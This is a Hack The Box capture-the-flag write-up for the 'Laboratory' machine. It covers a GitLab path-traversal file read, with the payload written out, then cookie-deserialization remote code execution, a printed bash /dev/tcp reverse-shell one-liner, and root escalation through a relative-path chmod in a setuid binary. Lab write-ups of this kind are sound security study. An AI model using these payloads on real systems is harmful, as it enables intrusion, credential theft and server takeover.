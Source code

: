 ```yaml
---
title: Laboratory HTB Writeup
date: '2021-04-17 16:00:00'
categories: ["htb"]
banner_img: /img/Laboratory.png
---
```


# Laboratory 🧪

# User

First we start by scanning the provided ip using nmap.

![nmap](https://user-images.githubusercontent.com/16364370/102066204-8a1ee980-3dc7-11eb-84ca-b93bca7d749d.png)

We have 3 common ports available, first lets visit port 80 using our web browser.
We get redirected to a hostname *https://laboratory.htb/* on https. Let add this to our hosts file.

![Websiteport80 png](https://user-images.githubusercontent.com/16364370/102066209-8b501680-3dc7-11eb-8d0e-713ccef8df86.png)

We don't get any usefull info from here besides some clients names we may need later.

![Websiteport80](https://user-images.githubusercontent.com/16364370/102066208-8ab78000-3dc7-11eb-9e99-c23f2c9ee270.png)

Looking again at Nmap result we got another hostname *git.laboratory.htb*. Nmap took this from the ssl Subject Alternative Name.I add this to my hosts file and visit it.

![gitlab](https://user-images.githubusercontent.com/16364370/102066199-89865300-3dc7-11eb-94e8-473edd03c1db.png)

Gitlab is installed. Because I don't have any username or password I try to signup but there is a problem.

![emaildomainprohibited](https://user-images.githubusercontent.com/16364370/102066197-88edbc80-3dc7-11eb-9559-034a74fecc04.png)

I try to enter an email like this *fuxsocy@laboratory.htb* and it works. Now that I am logged in I can visit https://git.laboratory.htb/help and see which version this gitlab instance is.

![gitlabversion](https://user-images.githubusercontent.com/16364370/102066202-89865300-3dc7-11eb-9303-ccd34cf5fe8d.png)

After knowing the version I search for exploits. 
There is an open report disclosed via hackerone to gitlab team about an lfi https://hackerone.com/reports/827052.
We can read internal files by creating two repositories `a` and `b`. Then we create an issue on the repo `a` by adding a description `![a](/uploads/11111111111111111111111111111111/../../../../../../../../../../../../../../etc/passwd)` where `/etc/passwd` is the file we want to read. We then move this created issue to repository `b` and the file will be available to download. But we need to get a shell on the machine. I tried to get ssh private keys but I was unable. Looking at the same report on hackerone the author also provided a way to gain rce.

![rcegitlab](https://user-images.githubusercontent.com/16364370/102066205-8ab78000-3dc7-11eb-83ce-090f172a05d0.png)

I was able to get the _secret_key_base_ file so I continued with the exploit. To do this I created a docker instance on a digitalocean vps as my machine is a slow and docker with gitlab needs a lot of resources(I tried it lol). 
First we install docker.

![docker io install](https://user-images.githubusercontent.com/16364370/102066610-06193180-3dc8-11eb-8e43-fe7f6b8e42a4.png)

Going to [dockerhub](https://hub.docker.com/) we find a docker version which is vulnerable. [Here](https://hub.docker.com/r/gitlab/gitlab-ce/tags?page=4&ordering=last_updated) is the page which has a version prior to the one which is vulnerable. I use version 12.8.6-ce.0 , ce indicates community edition.
These commands will install gitlab inside a docker container.

![gitlabinstalldocker](https://user-images.githubusercontent.com/16364370/102066642-103b3000-3dc8-11eb-9a24-d909766eac95.png)

This will take some time to complete, and start. I enter docker using the following commands.

![dockerenter](https://user-images.githubusercontent.com/16364370/102080898-4636df00-3ddd-11eb-9edd-9f34fcac28dc.png)

Now I need to get the file `/opt/gitlab/embedded/service/gitlab-rails/config/secrets.yml` from laboratory machine using lfi and then replace it with the one inside the docker container. After we enter `gitlab-rails console` and try to create a cookie with a payload which will send a get request to test if the payload works.

![cookie exploit](https://user-images.githubusercontent.com/16364370/102080890-43d48500-3ddd-11eb-8ee4-ce1c2aacfc17.png)

Now we copy this and send it using curl.

![curlsend](https://user-images.githubusercontent.com/16364370/102080893-4505b200-3ddd-11eb-92d9-57a821a11e5e.png)

And we successfully get a connection back.

![exploitworkstest](https://user-images.githubusercontent.com/16364370/102080900-46cf7580-3ddd-11eb-8946-084db386f20d.png)

I do the same, the first command will be to fetch a file containing `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1` form my web server. The second command will make it executable using `chmod` and the final command will run it. Each of the command are sent reparately.

![gotshell](https://user-images.githubusercontent.com/16364370/102080904-47680c00-3ddd-11eb-81ec-2cb4b2c78cea.png)

I am inside the docker container which contains gitlab. I can now enter `gitlab-rails console` and change `administrator` password which will give me access to all repositories.

![gitlab-railsconsolepasswordchange](https://user-images.githubusercontent.com/16364370/102080903-47680c00-3ddd-11eb-952f-c9229c30499e.png)

Dexter is the administrator username and the password I just changed it to `secret_pass`.
When loggin in as dexter we can see all repositories, but the one repo from dexter contained an id_rsa ssh key.

![dexteridrsasshkey](https://user-images.githubusercontent.com/16364370/102080894-4505b200-3ddd-11eb-9ef1-b1e8b1e789eb.png)

I use with ssh and get user.txt

![dexterssh](https://user-images.githubusercontent.com/16364370/102080896-459e4880-3ddd-11eb-92c0-3795c17820ce.png)

# Root

Looking at todo.txt we see a todo which is highlighted:

![dockersecurityroot](https://user-images.githubusercontent.com/16364370/102080899-4636df00-3ddd-11eb-9a0f-6e8608b43d5f.png)

I find a file _docker-security_ located in **/usr/local/bin/docker-security** which has setuid bit set. I copy the binary to my machine using nc and then I run strings on it.

![runschmod](https://user-images.githubusercontent.com/16364370/102080908-48993900-3ddd-11eb-8da6-1509d2c60cfa.png)

Looking into this we can see that it runs chmod using relative path. So If we change our terminal path to a directory we want and then create a malicious file named chmod it will run that file instead resulting in running root code for us.

![privescchmodrelativepath](https://user-images.githubusercontent.com/16364370/102080906-4800a280-3ddd-11eb-9341-f3d443138750.png)

And We get our connection back and read root.txt.

![root](https://user-images.githubusercontent.com/16364370/102080907-4800a280-3ddd-11eb-8781-f921fc729e70.png)



